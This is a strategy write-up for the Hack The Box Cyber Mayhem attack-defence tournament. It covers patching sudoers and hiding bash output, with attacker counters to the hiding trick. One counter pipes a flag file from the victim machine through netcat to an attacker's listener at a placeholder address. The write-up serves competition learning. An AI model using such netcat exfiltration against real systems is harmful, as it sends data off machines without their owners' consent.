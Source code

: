 Nevertheless, below are my gathered strategies, tips and tricks for Cyber Mayhem which are based on experience during the tournament.

### Defending

### 1. Patching sudoers file early at the start

One crucial part in defending is to patch the root privilege escalation. An attacker gaining root access to one of your machines means that he now owns that machine, thus can do anything he wanted to. Since majority of the machines have vulnerability in sudoers, one strategy is to patch it as early as you can.

Note that no underlying functionality should stop due to the patch. (e.g. Not removing sudoers entries but rather editing them to give less privileges to the users.)

### 2. Hiding command output of bash

We actually received a number of players' hate on HTB Discord #hbgt-battle-talks channel while playing in tournament regarding this strategy. At the same time, we were reported number of times. Quite a few players initially assumed that we deleted our machines /bin/bash shell, which never did happened.

Having just limited number of matches, and already consumed all of it - the same with other players (this was mentioned as some players competing on the tournament have unlimited matches on their account which can play regular Cyber Mayhem matches as many times as they want) - we haven't really had knowledge on numerous machines, as well as their vulnerabilities, so we do not know what to patch on it. We used this strategy to buy us some time to learn more about the machine as well as enumerating services currently available on it. Please note that this trick, can be easily brushed off by an attacker knowing how it works.

The trick is to hide commands being outputted by bash shell. Do take note that the **bash works perfectly including all the commands entered on it**, and **in no way being deleted nor destroyed**. It's just the output is hidden. Obviously, since we believe, it is being fair as part of defending not to destroy binaries. For reference, check this [article](https://askubuntu.com/questions/859501/how-to-hide-all-command-output-with-zsh-and-bash/860230#860230). 

To do this, you just need to enter the command below.
~~~
exec >/dev/null
~~~

The idea in here is to redirect stdout and stderr of any following command to /dev/null.

As an attacker, there are numerous ways to counter this, below are a few methods.

(1) Enter the command below, to restore output.
~~~
exec >/dev/tty
~~~

(2) Start a netcat listening port, then pipe bash output in netcat.
~~~
On your machine: nc -lp <port>
~~~

~~~
On the victim machine: cat /opt/flag.txt | nc <ip address> <port>
~~~
